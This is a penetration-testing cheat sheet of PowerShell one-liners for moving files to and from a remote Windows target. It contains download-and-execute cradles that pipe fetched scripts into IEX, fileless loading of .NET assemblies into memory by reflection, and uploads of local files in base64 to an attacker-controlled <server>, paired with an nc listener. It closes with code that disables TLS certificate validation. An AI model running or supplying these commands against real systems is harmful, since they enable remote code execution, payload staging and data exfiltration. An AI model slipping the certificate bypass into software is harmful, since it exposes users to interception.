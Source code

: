 # pwsh

% powershell, download

#plateform/windows #target/remote #cat/UTILS/FILE_TRANSFERT #tag/powershell 



## file transfert - download on disk (csharp)
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<windows_writable_path>/<dest_file>')
```
## file transfert - proxied download on disk (csharp)
```powershell
$w=New-Object System.Net.WebClient; $w.Proxy=New-Object System.Net.WebProxy("http://<proxy_server>:<proxy_port>",$true); $w.proxy.Credentials = New-Object System.Net.NetworkCredential("<proxy_login>", "<proxy_password>"); $w.DownloadFile('http://<server>/<source_file>','<windows_writable_path>/<dest_file>')
```

## file transfert - download on disk (powershell)
```powershell
Invoke-WebRequest -URI http://<server>/<source_file> -Out <windows_writable_path>/<dest_file>
```

## file transfert - proxied download on disk (powershell)
```powershell
Invoke-WebRequest -URI http://<server>/<source_file> -Out <windows_writable_path>/<dest_file> -Proxy http://<proxy_server>:<proxy_port> -ProxyCredential (New-Object System.Management.Automation.PSCredential("<proxy_login>", (ConvertTo-SecureString '<proxy_password>' -Asplaintext -force)))
```

## file transfert - download and import script (csharp)
```powershell
(new-object system.net.webclient).downloadstring('http://<server>/<script>') | IEX
```

## file transfert - proxied download and import script (csharp)
```powershell
$w=New-Object System.Net.WebClient; $w.Proxy=New-Object System.Net.WebProxy("http://<proxy_server>:<proxy_port>",$true); $w.proxy.Credentials = New-Object System.Net.NetworkCredential("<proxy_login>", "<proxy_password>"); $w.downloadstring('http://<server>/<script>') | IEX
```

## file transfert - download and import script (powershell)
```powershell
Invoke-WebRequest -URI http://<server>/<script> | IEX
```

## file transfert - proxied download and import script (powershell)
```powershell
Invoke-WebRequest -URI http://<server>/<script> -Proxy http://<proxy_server>:<proxy_port> -ProxyCredential (New-Object System.Management.Automation.PSCredential("<proxy_login>", (ConvertTo-SecureString '<proxy_password>' -Asplaintext -force))) | IEX
```

## file transfert - download csharp into memory (Assembly reflection)
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<server>/<binary>'); $asm = [System.Reflection.Assembly]::Load($data); 
```

## file transfert - download gziped csharp into memory (Assembly reflection)
```powershell
$compressed = (New-Object System.Net.WebClient).DownloadData('http://<server>/<binary>');$a=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String($compressed));$decompressed = New-Object IO.Compression.GzipStream($a,[IO.Compression.CoMPressionMode]::DEComPress);$asm = [System.Reflection.Assembly]::Load($decompressed); 
```

## file transfert - run csharp from memory (Assembly reflection) 
```powershell
$params="<asm_ref_params>".split(" ");$OldConsoleOut = [Console]::Out; $StringWriter = New-Object IO.StringWriter ; [Console]::SetOut($StringWriter) ; $asm.EntryPoint.Invoke($null, [Object[]] @(@(,($params))));[Console]::SetOut($OldConsoleOut); $Results = $StringWriter.ToString(); $Results
```
= asm_ref_params: -group=user -full

## file transfert - upload base64 (in-memory)
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<file>' -Encoding Byte));Invoke-RestMethod -Uri http://<server>/ -Method POST -Body $b64
```

## file transfert - upload base64 (file creation)
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
certutil -encode <infile> <outfile>; $base64str = Get-Content <outfile> && Invoke-RestMethod -Uri http://<server>/ -Method POST -Body $base64str
```


## file transfert - bypass certificat validation
```powershell
 add-type @"
    using System.Net;
    using System.Security.Cryptography.X509Certificates;
    public class TrustAllCertsPolicy : ICertificatePolicy {
        public bool CheckValidationResult(
            ServicePoint srvPoint, X509Certificate certificate,
            WebRequest request, int certificateProblem) {
            return true;
        }
    }
"@
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
```